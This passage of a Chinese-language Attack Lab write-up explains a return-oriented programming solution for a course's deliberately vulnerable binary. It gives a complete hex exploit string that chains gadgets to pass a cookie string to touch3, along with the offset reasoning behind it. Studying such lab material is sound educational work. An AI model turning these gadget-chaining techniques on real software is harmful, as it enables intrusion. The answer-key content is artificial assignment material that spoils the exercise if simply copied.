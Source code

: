 由于栈随机化，不能简单像 `phase_3` 中一样传入固定地址，于是考虑读取当前 `%rsp` 加上一定偏移量传入参数，发现新增 `farm` 第一个就是 `leaq` 指令，于是利用这个来计算地址，其余 `movq`，`movl`，`popq` 等指令慢慢捣鼓一会就出来了，具体可以看下方答案注释。

值得关注的一点是第9行偏移值这个常数，关键是 `%rsp` 的位置，一开始我错误地认为指向第六行，计算出来常数是80，但出错了。后来才意识到第六行相当于原来函数返回地址，`ret` 之后 `%rsp + 8`，所以此时 `%rsp` 相当于指向第7行，因此常数是72。

#### 答案

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* movq   %rsp, %rax             */
c5 19 40 00 00 00 00 00 /* movq   %rax, %rdi [%rsp here] */
cc 19 40 00 00 00 00 00 /* popq   %rax                   */
48 00 00 00 00 00 00 00 /* Constant: 72(0x48)            */
42 1a 40 00 00 00 00 00 /* movl   %eax, %edx             */
69 1a 40 00 00 00 00 00 /* movl   %edx, %ecx             */
27 1a 40 00 00 00 00 00 /* movl   %ecx, %esi             */
d6 19 40 00 00 00 00 00 /* leaq   (%rdi, %rsi, 1), %rax  */
c5 19 40 00 00 00 00 00 /* movq   %rax, %rdi             */
fa 18 40 00 00 00 00 00 /* touch3()                      */
35 39 62 39 39 37 66 61 /* cookie (in ASCII)             */
00 00 00 00 00 00 00 00
```

## 结果

### phase_1

![](images/result_1.png)

### phase_2

![](images/result_2.png)
